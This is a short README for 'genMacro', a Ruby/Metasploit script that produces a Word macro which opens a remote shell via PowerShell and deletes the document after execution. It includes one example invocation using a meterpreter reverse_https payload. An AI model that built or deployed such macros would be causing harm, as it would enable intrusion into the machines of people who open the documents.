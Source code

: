 # genMacro

Requirements-
Linux,
Ruby,
Metasploit,
Script - Just run it in Kali lol

Creates a copy and pasteable Word Macro that shellz via powershell and then deletes the document after code execution. Future versions will include persistence.

*Note: This is only the Macro and you will need to add other goodies to your document :P


Example:

>ruby genMacro.rb windows/meterpreter/reverse_https 127.0.0.1 4444 MacroBrah
